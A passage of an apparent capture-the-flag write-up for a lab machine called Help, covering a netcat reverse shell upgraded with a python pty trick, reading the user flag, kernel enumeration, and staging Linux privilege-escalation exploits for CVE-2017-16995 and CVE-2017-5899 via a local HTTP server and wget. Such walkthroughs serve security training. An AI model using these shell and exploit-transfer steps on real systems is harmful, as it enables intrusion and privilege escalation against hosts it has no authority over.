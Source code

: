 
Upgrade shell with standard trick (I don’t usually show this, but I always do
it):

    
    
    $ python -c 'import pty; pty.spawn("bash")'
    help@help:/var/www/html/support/uploads/tickets$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443    # i typed fg enter
                                                          reset
    reset: unknown terminal type unknown
    Terminal type? screen
    

Now I have a solid terminal with up arrow, tab completion, and ctrl-c:

    
    
    help@help:/var/www/html/support/uploads/tickets$ id
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
    

I can also grab user.txt:

    
    
    help@help:/home/help$ cat user.txt
    bb8a7b36...
    

## Priv: help –> root

### Enumeration

A simple `uname -a` shows the version of this host:

    
    
    help@help:/var/www/html/support/uploads/tickets$ uname -a
    Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    

Given that kernel is almost a year old, exploits might be in play. Googling
found two exploits that might work:

  * CVE-2017-16995 - [44298.c](https://www.exploit-db.com/exploits/44298) and [45010.c](https://www.exploit-db.com/exploits/45010)
  * CVE-2017-5899 - [exploit.sh](https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh)

### Exploit

I’ll download all three exploits, and serve them with `python3 -m http.server
80` to move them to Help with `wget`.

I’m working out of `/dev/shm`. I’ll compile and run the first, and get a root
shell:
